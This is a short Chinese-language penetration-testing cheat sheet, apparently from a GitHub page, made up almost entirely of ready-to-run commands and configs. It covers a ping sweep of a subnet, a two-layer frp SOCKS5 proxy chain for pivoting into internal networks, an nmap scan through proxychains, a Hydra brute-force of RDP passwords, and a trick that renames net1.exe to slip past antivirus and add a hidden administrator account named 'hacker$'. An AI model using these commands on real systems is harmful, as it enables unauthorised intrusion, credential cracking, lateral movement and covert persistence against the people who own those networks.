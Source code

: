 探测存活主机：

```
for /L %I in (1,1,254) DO @ping -w 1 -n 1 192.168.200.%I | findstr "TTL"  >> 1.txt
```

---

frp 两层代理：

第一层：

FRPS（Server IP：10.11.11.171）:

```
[common]
bind_port = 5001
```

FRPC:

```
[common]
server_addr = 10.11.11.171 （我自己的电脑的IP，这个程序放到了IP为192.168.2.100的机器上运行，也就是和外网相连的机器）
server_port = 5001

[ssh]
type = tcp
remote_port = 9998
plugin = socks5
```

第二层：

FRPS：

```
[common]
bind_port = 5001
```

FRPC （这个放到了第一二层交界的电脑上运行，以进入第二层内网，属于是取巧的做法）:

```
[common]
tls_enable = true
server_addr = 192.168.2.100 （把内外网相连的机器作为跳板）
server_port = 5001

[plugin_socks5]
type = tcp
remote_port = 9998
plugin = socks5
```

---

Nmap 扫描命令：

```
proxychains4 nmap -Pn -sT -p80,135,445,3389 192.168.2.150
```

Hydra RDP密码爆破：

```
hydra -L '/root/Desktop/Tools/fuzzDicts/userNameDict/top500.txt' -P '/root/Desktop/Tools/fuzzDicts/passwordDict/top500.txt' rdp://192.168.2.150 -t 1 -V
```

绕杀软添加用户：

```
cd C:\Windows\System32

copy net1.exe net2.txt

net2.txt user hacker$ admin /add  //添加隐藏用户

net2.txt localgroup administrators hacker$ /add   //加入到管理员组中
```




